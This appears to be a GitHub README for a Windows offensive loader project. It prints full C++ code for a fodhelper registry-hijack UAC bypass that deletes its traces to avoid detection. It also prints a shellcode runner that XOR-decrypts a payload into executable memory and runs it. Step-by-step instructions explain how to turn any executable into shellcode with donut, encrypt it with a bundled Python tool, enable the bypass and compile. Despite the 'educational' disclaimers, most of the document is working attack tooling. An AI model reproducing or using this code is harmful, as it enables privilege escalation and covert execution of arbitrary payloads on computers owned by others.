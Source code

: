 # L3582-490DER

## Overview
This project contains two main components: a C++ UAC bypass demonstration and a Python shellcode encryption utility. **This is for educational purposes only** and was developed by 3582-490 to explore Windows API concepts and security mechanisms.

## DISCLAIMER
**I, 3582-490, created this code solely for educational and research purposes. I do not endorse, encourage, or take responsibility for any misuse of this code. Unauthorized use of these techniques against systems you don't own is illegal and unethical. Use this knowledge responsibly and only in environments where you have explicit permission.**

## Project Structure

### 1. L3582-490DER.cpp
This C++ code demonstrates various Windows API concepts including potential UAC bypass techniques (commented out for safety).

#### UAC Bypass Code Explanation:
```cpp
// UAC bypass technique using fodhelper (commented out for safety)

void mason__xa() {
    // Creates registry entries to hijack the fodhelper.exe UAC bypass
    HKEY mason__xb; // Registry key handle
    wchar_t mason__xc[MAX_PATH]; // Buffer for current executable path
    
    // Get the path of the current executable
    GetModuleFileNameW(NULL, mason__xc, MAX_PATH);
    
    // Create or open registry key for fodhelper hijack
    RegCreateKeyExW(HKEY_CURRENT_USER,
        L"Software\\Classes\\ms-settings\\shell\\open\\command",
        0, NULL, 0, KEY_WRITE, NULL, &mason__xb, NULL);
    
    // Set the default value to point to our executable
    RegSetValueExW(mason__xb, L"", 0, REG_SZ, (BYTE*)mason__xc, (wcslen(mason__xc) + 1) * sizeof(wchar_t));
    
    // Clear the DelegateExecute value to ensure our command runs
    RegSetValueExW(mason__xb, L"DelegateExecute", 0, REG_SZ, (BYTE*)L"", sizeof(wchar_t));
    
    // Launch fodhelper.exe which will execute our code with elevated privileges
    ShellExecuteW(NULL, L"open", L"fodhelper.exe", NULL, NULL, SW_HIDE);
    
    // Wait for execution to complete
    Sleep(3000);
    
    // Clean up registry entries to avoid detection
    RegDeleteTreeW(HKEY_CURRENT_USER, L"Software\\Classes\\ms-settings");
}

// Function to check if the current process has admin privileges
bool mason__xg() {
    BOOL mason__xh = FALSE; // Admin check result
    SID_IDENTIFIER_AUTHORITY mason__xi = SECURITY_NT_AUTHORITY; // NT authority
    PSID mason__xj; // Group SID

    // Create a SID for the Administrators group
    if (AllocateAndInitializeSid(&mason__xi, 2, SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &mason__xj)) {
        // Check if current token is member of Admin group
        CheckTokenMembership(NULL, mason__xj, &mason__xh);
        FreeSid(mason__xj); // Free the SID
    }
    return mason__xh; // Return admin status
}

```

**To activate the admin check and UAC bypass in the main function, remove the `//` comment markers before the if statement and function calls.**

#### Shellcode Execution Code Explanation:
```cpp
// Main function demonstrating XOR decryption and execution
int WINAPI WinMain(HINSTANCE mason__xk, HINSTANCE mason__xl, LPSTR mason__xm, int mason__xn) {
    // The commented section would check for admin privileges and attempt UAC bypass if not admin
    // if (!mason__xg()) {
    //    mason__xa();
    //    return 0;
    // }
    
    std::string mason__xd; // Unused string variable
    
    // Encrypted shellcode using XOR cipher (example values)
    unsigned char mason__xe[] = { 0x42, 0x6A, 0x75, 0xAA, 0xAA, 0x6A, 0x75, 0xAA };
    
    unsigned char mason__xf = 0xAA; // XOR decryption key
    
    // Decrypt the shellcode using XOR operation
    for (int mason__xi = 0; mason__xi < sizeof(mason__xe); ++mason__xi) {
        mason__xe[mason__xi] ^= mason__xf; // XOR each byte with key
    }
    
    // Allocate executable memory for the shellcode
    void* mason__xj = VirtualAlloc(0, sizeof(mason__xe), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
    // Copy decrypted shellcode to executable memory
    memcpy(mason__xj, mason__xe, sizeof(mason__xe));
    
    // Execute the shellcode by casting memory to function pointer and calling it
    ((void(*)())mason__xj)();
    
    return 0;
}
```

### 2. ShellCodeXOR.py
This Python utility encrypts binary files (like shellcode) using XOR encryption for use in the C++ program.

#### Features:
- XOR encryption with customizable key (default 0xAA)
- Converts encrypted data to C-style array format
- Handles file input with validation
- Generates output ready for use in C++ programs

## How to Use

### Prerequisites
1. Download [donut](https://github.com/TheWover/donut/releases/download/v1.1/donut_v1.1.zip) to generate shellcode from executables
2. Python 3.x installed for the encryption script

### Step-by-Step Process

1. **Generate shellcode from an executable using donut:**
   ```
   donut.exe -i your_file.exe -o output.bin
   ```

2. **Encrypt the shellcode using the Python utility:**
   ```
   python ShellCodeXOR.py
   ```
   Follow the prompts to select your .bin file

3. **Replace the encrypted array in the C++ code:**
   - Copy the output from output.txt
   - Replace the `mason__xe` array in L3582-490DER.cpp with your encrypted shellcode

4. **Compile the C++ code:**
   - Use a C++ compiler like MinGW or Visual Studio
   - Ensure you link against the necessary libraries (Windows.h, etc.)

## Technical Details

### XOR Encryption
The project uses a simple XOR cipher with a single-byte key (0xAA) for demonstration purposes. In real-world scenarios, more robust encryption should be used.

### Memory Execution
The code uses `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions to allocate memory that can execute code. This technique is commonly monitored by security software.

### UAC Bypass (Commented Out)
The commented UAC bypass technique exploits the fodhelper.exe mechanism by creating specific registry entries. This technique is well-documented and likely detected by modern security solutions.

## Legal and Ethical Considerations

This code is provided for educational purposes only. Before using any of these techniques:

1. Ensure you have explicit written permission to test on the target system
2. Understand that these techniques may violate terms of service
3. Be aware that many of these methods are detected by modern security solutions
4. Never use this knowledge to harm others or disrupt systems

## About the Author

I'm 3582-490, a security enthusiast interested in understanding Windows internals and security mechanisms. I believe that understanding how systems can be exploited is essential to defending them effectively.

## License

This project is provided for educational purposes only. No license is granted for commercial use or redistribution.
